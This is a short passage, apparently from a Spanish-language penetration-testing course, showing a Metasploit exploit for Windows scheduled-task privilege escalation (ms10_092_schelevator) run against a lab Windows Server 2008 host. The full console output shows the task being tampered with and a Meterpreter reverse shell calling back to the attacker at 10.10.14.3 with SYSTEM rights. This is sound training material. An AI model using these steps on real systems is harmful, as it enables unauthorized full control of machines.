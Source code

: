 #### Recibiendo carcasa inversa elevada

Si todo va según lo planeado, una vez que escribimos`exploit`, recibiremos un nuevo shell de meterpreter como el`NT AUTHORITY\SYSTEM`cuenta y puede pasar a realizar cualquier explotación posterior necesaria.

  Servidor de Windows

```shell-session
msf6 exploit(windows/local/ms10_092_schelevator) > exploit

[*] Started reverse TCP handler on 10.10.14.3:4443
[*] Preparing payload at C:\Windows\TEMP\uQEcovJYYHhC.exe
[*] Creating task: isqR4gw3RlxnplB
[*] SUCCESS: The scheduled task "isqR4gw3RlxnplB" has successfully been created.
[*] SCHELEVATOR
[*] Reading the task file contents from C:\Windows\system32\tasks\isqR4gw3RlxnplB...
[*] Original CRC32: 0x89b06d1a
[*] Final CRC32: 0x89b06d1a
[*] Writing our modified content back...
[*] Validating task: isqR4gw3RlxnplB
[*]
[*] Folder: \
[*] TaskName                                 Next Run Time          Status
[*] ======================================== ====================== ===============
[*] isqR4gw3RlxnplB                          6/1/2021 1:04:00 PM    Ready
[*] SCHELEVATOR
[*] Disabling the task...
[*] SUCCESS: The parameters of scheduled task "isqR4gw3RlxnplB" have been changed.
[*] SCHELEVATOR
[*] Enabling the task...
[*] SUCCESS: The parameters of scheduled task "isqR4gw3RlxnplB" have been changed.
[*] SCHELEVATOR
[*] Executing the task...
[*] Sending stage (175174 bytes) to 10.129.43.15
[*] SUCCESS: Attempted to run the scheduled task "isqR4gw3RlxnplB".
[*] SCHELEVATOR
[*] Deleting the task...
[*] Meterpreter session 2 opened (10.10.14.3:4443 -> 10.129.43.15:49634) at 2021-05-12 16:04:34 -0400
[*] SUCCESS: The scheduled task "isqR4gw3RlxnplB" was successfully deleted.
[*] SCHELEVATOR


meterpreter > getuid

Server username: NT AUTHORITY\SYSTEM


meterpreter > sysinfo

Computer        : WINLPE-2K8
OS              : Windows 2008 R2 (6.1 Build 7600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 3
Meterpreter     : x86/windows
```

---